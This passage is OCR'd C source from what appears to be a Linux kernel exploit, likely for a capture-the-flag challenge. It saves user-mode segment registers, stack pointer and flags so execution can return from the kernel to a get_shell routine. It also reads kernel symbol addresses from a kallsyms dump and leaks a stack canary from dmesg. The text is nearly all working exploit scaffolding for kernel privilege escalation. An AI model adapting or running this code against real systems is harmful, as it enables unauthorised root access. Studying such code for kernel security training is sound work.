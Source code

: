 ``` c
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;");
    printf("ip is 0x%lx\n", (size_t)get_shell);
    printf("cs is 0x%lx\n", user_cs);
    printf("ss is 0x%lx\n", user_ss);
    printf("sp is 0x%lx\n", user_sp);
    printf("flag is 0x%lx\n", user_rflags);
    puts("status has been saved.");
}

size_t get_addr(char *name)
{
    int num = strlen(name) * 2 + 3 + 27;
    char cmd[num];
    memset(cmd, 0, num);
    strcat(cmd, "cat /tmp/kallsyms | grep ");
    strcat(cmd, name);
    strcat(cmd, " > ");
    strcat(cmd, name);
    printf("the cmd is %s\n", cmd);
    system(cmd);

    char buf[19] = {0};
    size_t addr = 0;

    FILE *fp = fopen(name, "r");
    if (fp == NULL)
    {
        printf("open %s error!\n", name);
        exit(0);
    }
    fgets(buf, 18, fp);
    addr = strtoul(buf, 0, 16);
    printf("the addr(0x) is: %p\n", (void *)addr);
    if (addr == 0)
    {
        puts("string conversion integer failed");
    }
    fclose(fp);
    return addr;
}

size_t get_canary()
{
    system("dmesg | grep canary > canary");
    puts("the cmd is: dmesg | grep canary > canary");
    FILE *fp = fopen("canary", "r");
    if (fp == NULL)
    {
        puts("open canary error");
        exit(0);
    }
    char buf[100] = {0};
    size_t canary = 0;
    fgets(buf, 100, fp);
    puts(buf);
    char *str_canary = strstr(buf, "0x");
    puts(str_canary);
    canary = strtoul(str_canary, 0, 16);
    fclose(fp);
```